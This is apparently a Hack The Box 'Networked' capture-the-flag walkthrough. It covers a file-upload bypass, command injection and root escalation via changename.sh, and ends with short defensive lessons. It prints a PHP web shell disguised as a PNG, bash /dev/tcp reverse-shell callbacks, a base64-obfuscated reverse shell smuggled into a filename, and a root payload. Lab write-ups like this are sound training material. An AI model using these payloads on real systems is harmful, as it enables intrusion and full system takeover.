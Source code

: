 # Exploiting the HTB “Networked” Box: From Recon to Root

## HTB - Networked Walkthrough

**Category**: Web Exploitation, Privilege Escalation\
**Tags**: #cybersecurity

***

### 🕵️ Initial Recon

* Service found: **SSH**
* Version: **OpenSSH 7.4**
* Possible exploit: [CVE-2016-10012](https://www.exploit-db.com/exploits/40963)

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.146/FUZZ
```

* Found and extracted `backup.tar` archive.
* Inside: `upload.php` code with weak validation.

***

### 📤 File Upload Vulnerability

* The upload logic checks only:
  * MIME type
  * File extension

**Request (Burp Suite)**

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.146
Content-Length: 329
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.10.146
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRKXbcJxOmo3AUCu7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.146/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

PNG

	
<?php
system($_REQUEST['cmd']);
?>
------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="submit"

go!
------WebKitFormBoundaryRKXbcJxOmo3AUCu7--
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🐚 Reverse Shell Access

* Used `nc` on Parrot OS:

```bash
nc -lvnp 4444
```

* Burp request:

```http
GET /uploads/10_10_14_8.php.png?cmd=bash+-i+>%26+/dev/tcp/10.10.14.8/4444+0>%261 HTTP/1.1
Host: 10.10.10.146
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### 🧼 File Cleanup Script Vulnerability

* In `guly`'s home directory, a script was auto-deleting files not matching an IP regex.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

* This allows **command injection**.
*

    <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* made a reverse shell

```
echo "bash -i >& /dev/tcp/10.10.14.8/4445 0>&1" | base64
```

```
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

* gully can run the following

#### Reproduction

```bash
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

***

### ⚙️ Privilege Escalation via `changename.sh`

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

* Vulnerability: passes user-controlled input to a script executed with root privileges.

#### Exploit:

```bash
echo 'bash -p' > /tmp/payload
chmod +x /tmp/payload

sudo /usr/local/sbin/changename.sh
```

When prompted:

```
interface NAME:
guly0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
no
interface BOOTPROTO:
none /tmp/payload
```

Executes `/tmp/payload` as root.

* as said in this Blog post if a space is given this is executed everything after the space as root
  * https://seclists.org/fulldisclosure/2019/Apr/24

***

### 🧠 Lessons

* Never trust user input — always sanitize and validate properly.
* File upload protections should go beyond MIME and extension.
* Never directly pass input to shell commands without sanitization.

***

### 🔗 References

* [Full Disclosure - changename.sh bug](https://seclists.org/fulldisclosure/2019/Apr/24)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=H3t3G70bakM)
* https://seclists.org/fulldisclosure/2019/Apr/24
* [https://www.hackthebox.com/achievement/machine/409699/203](https://www.hackthebox.com/achievement/machine/409699/203)
